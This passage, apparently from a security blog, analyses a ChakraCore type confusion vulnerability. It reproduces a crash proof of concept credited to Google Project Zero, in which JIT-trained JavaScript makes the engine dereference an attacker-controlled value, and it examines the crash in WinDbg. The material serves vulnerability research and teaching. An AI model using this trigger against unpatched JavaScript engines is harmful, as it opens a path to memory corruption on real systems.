 Let's start off by executing the following JavaScript in `ch.exe`. Save the following JavaScript code in a file named `poc.js` and run the following command: `ch.exe C:\Path\to\poc.js`. Please note that the following proof-of-concept code comes from the Google Project Zero issue, found [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=1702). Note that there are two proofs-of-concepts here. We will be using the latter one (`PoC for InitProto`).

```javascript
function opt(o, proto, value) {
    o.b = 1;

    let tmp = {__proto__: proto};

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, {}, {});
    }

    let o = {a: 1, b: 2};

    opt(o, o, 0x1234);

    print(o.a);
}

main();
```

<img src="{{ site.url }}{{ site.baseurl }}/images/typeconfusionanalysis1.png" alt="">

As we can see from the image above, when our JavaScript code is executed, an access violation occurs! This is likely due to invalid memory being accessed. Let's execute this script again, but this time attached to WinDbg.

<img src="{{ site.url }}{{ site.baseurl }}/images/typeconfusionanalysis2.png" alt="">

Executing the script, we can see the offending instruction in regards to the access violation.

<img src="{{ site.url }}{{ site.baseurl }}/images/typeconfusionanalysis3.png" alt="">

Since ChakraCore is open-sourced, we can also see the corresponding source code.

<img src="{{ site.url }}{{ site.baseurl }}/images/typeconfusionanalysis4.png" alt="">

Moving on, let's take a look at the disassembly of the crash.

<img src="{{ site.url }}{{ site.baseurl }}/images/typeconfusionanalysis5.png" alt="">

We can clearly see an invalid memory address (in this case `0x1234`) is being accessed. Obviously we can control this value as an attacker, as it was supplied by us in the proof-of-concept.
